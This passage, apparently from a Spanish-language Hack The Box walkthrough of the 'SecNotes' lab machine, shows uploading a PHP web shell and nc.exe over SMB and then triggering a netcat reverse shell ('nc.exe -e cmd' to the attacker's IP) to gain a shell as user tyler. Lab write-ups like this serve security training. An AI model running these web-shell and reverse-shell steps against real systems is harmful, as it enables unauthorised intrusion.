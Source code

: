 ```bash
smb: \> put shell.php
putting file shell.php as \shell.php (0.2 kb/s) (average 1.7 kb/s)
smb: \> 
```

Ahora si tratamos de ejecutar un comando:

![](/assets/images/htb-secnotes/secnotes-web16.png)

Lo que nos queda es ingresar al sistema mediante una reverse shell haciendo uso del archivo `nc.exe`, por lo que tambíen lo subimos al sistema, nos ponemos en escucha por el puerto 443 y ejecutamos nuestra reverse shell:

```bash
smb: \> put nc.exe
putting file nc.exe as \nc.exe (49.2 kb/s) (average 7.5 kb/s)
smb: \> dir
  .                                   D        0  Sun Dec 26 18:52:25 2021
  ..                                  D        0  Sun Dec 26 18:52:25 2021
  iisstart.htm                        A      696  Thu Jun 21 10:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 10:26:03 2018
  nc.exe                              A    28160  Sun Dec 26 18:52:26 2021
  shell.php                           A       65  Sun Dec 26 18:50:33 2021

                7736063 blocks of size 4096. 3397277 blocks available
smb: \>
```

- `http://10.10.10.97:8808/shell.php?cmd=nc.exe -e cmd 10.10.14.27 443`

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.97] 51477
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
secnotes\tyler

C:\inetpub\new-site>
```

Ya nos encontramos en la máquina como el usuario **tyler** y podemos visualizar la flag (user.txt). Por lo que ahora nos falta escalar privilegios; por lo que si accedemos al escritorio del usuario **tyler** vemos que tiene un archivo curioso llamando `bash.lnk`, es decir, un hipervínculo. Para obtener el origen de dicho archivo, vamos a obtener una reverse shell con powershell. 
